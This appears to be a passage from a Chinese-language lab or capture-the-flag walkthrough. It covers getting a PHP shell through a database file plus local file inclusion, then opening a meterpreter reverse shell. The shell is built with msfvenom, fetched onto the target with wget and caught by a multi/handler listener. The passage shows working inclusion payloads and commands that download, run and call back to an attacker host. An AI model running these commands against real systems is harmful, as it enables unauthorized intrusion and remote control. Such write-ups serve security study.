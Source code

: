     ```

* 漏洞利用

    ```php

    尝试用获取到的密码ssh登录，没成功

    继续看数据库页面，这里发现他的数据库建立之后在本地会生成一个以数据库名称命名的php文件，

    尝试新建一个数据库new再加一条数据写上shell

    然后用文件包含试一下包含这个文件，因为页面给出了绝对路径

    包含:../../../../../user/dbadmin/new&cmd=ls

    命令执行成功

    burp里命令执行的时候还是,记得全url编码

    uname -a:2012 x86_64 x86_64 x86_64 GNU/Linux

    ```

* 反弹shell

    ```php

    本地生成

    kali:msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.43.167 LPORT=9594 -f elf >shell.elf

    kali:python2 -m SimpleHTTPServer

    靶机:wget 192.168.43.167:8000/shell.elf

    靶机:chmod +x shell.elf

    kali:msf打开监听

    use exploit/multi/handler

    set payload linux/x86/meterpreter/reverse_tcp

    set lhost 192.168.43.28

    set lport 9594

    run

    靶机:./shell.elf

    擦，发现没有执行，ls了一下发现就没有shell

    根据解析可能是权限问题，以后上传了一定要及时ls看看有没有

    尝试更改保存路径

    wget 192.168.43.28:8000/shell.elf -O /tmp/shell.elf

    
    ls /tmp发现保存好了，运行一下(记得加运行权限)

    成功上线msf
